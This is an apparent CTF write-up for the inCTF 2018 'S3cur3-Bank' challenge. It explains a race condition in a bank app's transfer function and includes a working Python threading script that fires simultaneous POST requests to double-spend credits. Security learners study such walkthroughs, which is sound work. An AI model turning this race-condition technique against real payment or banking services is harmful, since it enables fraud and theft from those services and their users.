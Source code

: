 # S3cur3-Bank

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/9.png)

44/306 = 14% of the teams solved this challenge.

## Reconnaissance

First page is a login/registration page. Let's create a new user and login.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/10.png)

Okay, we can buy the flag for 5000 credits, but combined we only have 2000 credits. My first thought on this is that the application does not perform exclusive locks when moving money.

Psuedo code for the send function would look like this:

```python
send_money(to, amount):
  account_balance = get_account_balance(self)
  if account_balance - amount > 0
      # Enough credits to send
      send_money_to_account(to, amount_send)
      account_balance -=amount_send;
```

The insecure part of this is that there are no exclusive locks. What if we send two requests at basically the same time by using threads.

```python
send_money(A, 500) # account_balance before: 1000
send_money(A, 500) # account_balance before: 1000
```

These requests will read the account_balance which will return 1000.
Then it will send 500 credits to account A. Then subtract 500 from the original account_balance (1000-500=500).

`Account balance after: 500`

Notice something? We've sent 500*2 credits, but we still have 500 in our account. Let's apply this theory to practice.

## Hacking the bank

```python
import requests
import threading

url = "http://18.188.42.158/bank.php?id=a839eea9f6b192ad586ad41e8bd4d4db"


def make_money():
	data = {"transfer": 500, "account": "Transfer to A"}
	response = requests.post(url,data=data)
	print response.text

try:

	t1 = threading.Thread(target=make_money, args=[])
	t2 = threading.Thread(target=make_money, args=[])
	t1.start()
	t2.start()

except:
   print "Error: unable to start thread"

```

After running the script back a few times transfering money between A and B. We can buy the flag

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/11.png)


![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/12.png)
